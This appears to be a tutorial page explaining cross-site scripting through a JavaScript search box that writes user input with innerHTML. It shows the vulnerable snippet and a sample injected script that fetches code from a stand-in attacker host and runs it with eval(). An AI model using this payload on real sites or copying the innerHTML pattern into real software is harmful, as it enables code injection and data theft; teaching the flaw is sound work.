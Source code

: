 :::info

XSS (Cross-Site Scripting) occurs when attackers inject malicious scripts into your page. Since `innerHTML` treats user input as actual HTML, it can execute harmful code.

:::

### The Security Risk

Below are examples of vulnerable files:

- [index.html](https://github.com/joseeden/joeden/tree/master/docs/021-Software-Engineering/010-Javascript/000-Projects/001-hello-world/005-Comp-Sci-List)  
- [script.js](https://github.com/joseeden/joeden/tree/master/docs/021-Software-Engineering/010-Javascript/000-Projects/001-hello-world/005-Comp-Sci-List)  

The HTML file is a basic webpage that includes an input field for searching courses and a button to trigger the search. 

On the other hand, the Javascript code contains:

```javascript title="script.js"
document.querySelector(".search-course").addEventListener("click", function () {
  let userInput = document.querySelector(".course-id-input").value;
  let courseDetails = document.querySelector("#course-details");

  // Vulnerable to XSS: Using innerHTML
  courseDetails.innerHTML = `You searched for: ${userInput}`;
});
```

### Malicious Input Example

Below is sample malicious code:

```bash
<script>
  fetch('http://malicious-server.com/malicious-script.js')
    .then(response => response.text())
    .then(data => {
      eval(data); // Dangerous: executes downloaded malicious code
    });
</script>
```

If an attacker enters this in the input field, `innerHTML` will interpret it as valid HTML.

1. The injected `<script>` tag runs immediately when added to the page.
2. It fetches JavaScript from a rogue server (`http://malicious-server.com/malicious-script.js`).
3. The downloaded code executes using `eval()`.
4. This allows the attacker to steal data, install malware, or compromise the system.

:::info

**Note:** Modern browsers have built-in XSS protection that blocks some malicious scripts, but relying on it is not a safe security practice.

:::
